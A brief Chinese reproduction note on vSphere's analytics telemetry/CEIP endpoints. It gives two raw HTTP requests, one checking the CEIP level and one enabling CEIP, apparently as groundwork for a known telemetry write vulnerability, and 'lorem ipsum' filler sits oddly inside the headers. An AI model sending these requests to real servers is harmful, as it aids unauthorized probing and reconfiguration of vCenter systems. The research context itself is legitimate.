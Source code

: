 ![image-20230612184305776](attachments/image-20230612184305776.png)

ceip 是否启动，OFF为关闭

复现的时候 建了一个 `_c=testb` 是 OFF，但是仍然可以写

```http
GET /analytics/telemetry/ph/api/level?_c=vSphere.vapi.6_7 HTTP/1.1
Host: 172.16.8.111
Content-Length: 0
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Content-Type: application/json
Accept-Encoding: gzip, deflate
Connection: close
lorem ipsum


```

![image-20230613104901815](attachments/image-20230613104901815.png)

开启 ceip ，默认是关闭的

```http
PUT /ui/ceip-ui/ctrl/ceip/status/true HTTP/1.1
Host: 172.16.8.111
Content-Length: 2
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Content-Type: application/json
Accept-Encoding: gzip, deflate
Connection: close
lorem ipsum

{}
```
